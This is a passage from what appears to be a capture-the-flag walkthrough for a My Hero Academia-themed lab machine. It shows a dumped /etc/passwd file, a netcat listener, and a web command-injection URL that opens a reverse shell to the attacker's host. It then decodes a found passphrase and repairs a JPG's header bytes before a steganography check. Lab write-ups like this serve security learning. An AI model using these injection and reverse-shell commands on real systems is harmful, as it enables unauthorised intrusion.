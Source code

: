 ```
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
deku:x:1000:1000:deku:/home/deku:/bin/bash

lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash
```

We found out 2 active users, deku and root.

### Reverse Shell

Setup listener:

```
nc -lvnp 4444
```

Trigger reverse shell:

```
http://10.10.11.182/assets/index.php?cmd=nc+10.9.1.78+4444+-e+/bin/bash
```

Shell as `www-data` obtained.

## Loot Discovery

Found `Hidden_Content/passphrase.txt` with base64 content:

```
QWxsbWlnaHRGb3JFdmVyISEhCg== => AllmightForEver!!!
```

I then tried to log in trough SSH as deku with that password but it didnt work so i kept investigating.

### Steganography

In the assets folder there was another folder called Images that contained 2 images, yuei.jpg wich was a picture from the school and a broken image called oneforall.jpg, i decided to investigate it so i downloaded it using `wget http://10.10.11.182/assets/images/oneforall.jpg`

Image details didnt reveal much, so now i can try to fix it either by puttiing it on a website or by myself with hexeditor, i decided to do it myself since i dont wanna pay anything or log into anything, so i watched a youtube video about how to use it, and i found out my image code is wrong using hexeditpr: `hexeditor -b oneforall.jpg`

i found out the image is using PNG sgnature wich are the first values in the HEX code, so I replaced them with the right one for JPG which is `FF D8 FF E0 00 10 4A 46 49 46 00 01` and it worked, I can now see the image but dosent show anything special so now I'll try to use steghide to check if it has any hidden info
